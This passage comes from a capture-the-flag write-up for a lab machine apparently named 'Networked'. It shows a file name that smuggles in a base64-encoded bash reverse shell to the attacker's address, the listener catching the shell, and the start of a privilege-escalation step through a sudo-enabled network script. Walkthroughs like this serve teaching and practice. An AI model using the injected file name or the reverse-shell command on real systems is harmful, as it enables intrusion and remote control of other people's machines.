 - So effectively the name of the file should be as such : `;echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOC85MDAyIDA+JjEiCg== | base64 -d | bash`
- Additionally, the crontab in /home/guly, gives us the information that this is executed as guly.
- Open a listener and we can get a reverse shell in a while.
```bash
nc -lnvp 9002                                                                                               
listening on [any] 9002 ...                                                                                     
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.146] 39284                                                    
bash: no job control in this shell                                                                              
[guly@networked ~]$ python -c 'import pty; pty.spawn("/bin/bash")'                                              
python -c 'import pty; pty.spawn("/bin/bash")'                                                                  
[guly@networked ~]$ ^Z                                                                                          
[1]  + 9349 suspended  nc -lnvp 9002                                                                            
```

## User: root
- After running `sudo -l`, we can see guly can execute changeme.sh as root, without any password
```bash
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

```

- Checking the contents of changeme.sh
```bash
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
```